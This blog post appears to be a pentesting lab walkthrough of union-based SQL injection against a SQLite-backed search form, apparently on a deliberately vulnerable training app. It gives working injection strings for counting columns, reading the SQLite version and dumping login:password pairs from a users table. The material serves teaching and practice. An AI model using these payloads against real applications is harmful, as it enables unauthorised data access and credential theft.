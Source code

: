 ```yaml
---
layout: post
title: SQL Injection (SQLite)
categories:
  - Web-Pentesting
---
```


<br>..

![118](https://teckk2.github.io/assets/images/Web%20Pentest/A1/118.png)
![119](https://teckk2.github.io/assets/images/Web%20Pentest/A1/119.png)
<br>If we try to get sql error with single quote then it will give us a very unusual error Error: HY000
<br>Start enumerating the columns using order by in the URL section,
![120](https://teckk2.github.io/assets/images/Web%20Pentest/A1/120.png)
![121](https://teckk2.github.io/assets/images/Web%20Pentest/A1/121.png)
<br>**title=iron' order by 1-- #&action=search**
<br>no error, it means we are on the right path
![122](https://teckk2.github.io/assets/images/Web%20Pentest/A1/122.png)
<br>At order by 7 I got the error, which means there are 6 columns
![123](https://teckk2.github.io/assets/images/Web%20Pentest/A1/123.png)
![124](https://teckk2.github.io/assets/images/Web%20Pentest/A1/124.png)
<br>**title=iron' union select 1,2,3,4,sqlite_version(),6-- #&action=search**
<br>Now let’s find the database tables.
![125](https://teckk2.github.io/assets/images/Web%20Pentest/A1/125.png)
![126](https://teckk2.github.io/assets/images/Web%20Pentest/A1/126.png)
<br>The above image showed the information needed; the login and password columns for the users table.
![127](https://teckk2.github.io/assets/images/Web%20Pentest/A1/127.png)
<br>**title=iron' union select 1,email,3,4,login||":"||password,6 from users-- #&action=search**
<br>SQLite uses **“||”** as the operator to concatenate strings together. In this case, we are joining the login and password with a colon.
<br>we dump the login:hash from the database.

<p class="message">
  ~ Hack the World and Stay Noob
</p>

[Twitter](https://twitter.com/Teck__K2) / [Hack The Box](https://www.hackthebox.eu/profile/966) / [CTF Team](https://ctftime.org/team/20102) /
[Teck_N00bs Community Telegram](https://t.me/Teck_N00bs)

<script src="https://www.hackthebox.eu/badge/966"> </script>



